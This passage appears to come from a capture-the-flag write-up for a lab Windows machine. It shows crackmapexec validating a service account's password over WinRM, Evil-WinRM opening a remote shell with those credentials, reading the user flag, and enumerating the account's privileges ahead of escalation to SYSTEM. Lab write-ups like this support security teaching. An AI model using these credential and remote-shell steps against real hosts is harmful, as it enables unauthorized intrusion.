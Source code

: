 Most interestingly, they also work for WinRM:

```

oxdf@hacky$ crackmapexec winrm 10.10.11.108 -u svc-printer -p '1edFg43012!!'
SMB         10.10.11.108    5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.10.11.108    5985   PRINTER          [*] http://10.10.11.108:5985/wsman
WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)

```

#### Evil-WinRM

I’ll use [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) to connect and get a shell:

```

oxdf@hacky$ evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents>

```

And I can access `user.txt`:

```
*Evil-WinRM* PS C:\Users\svc-printer\desktop> type user.txt
c0118264************************

```

## Shell as SYSTEM

### Enumeration

#### Privileges

This account has a few interesting privileges:

```
*Evil-WinRM* PS C:\Users\svc-printer\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled

```
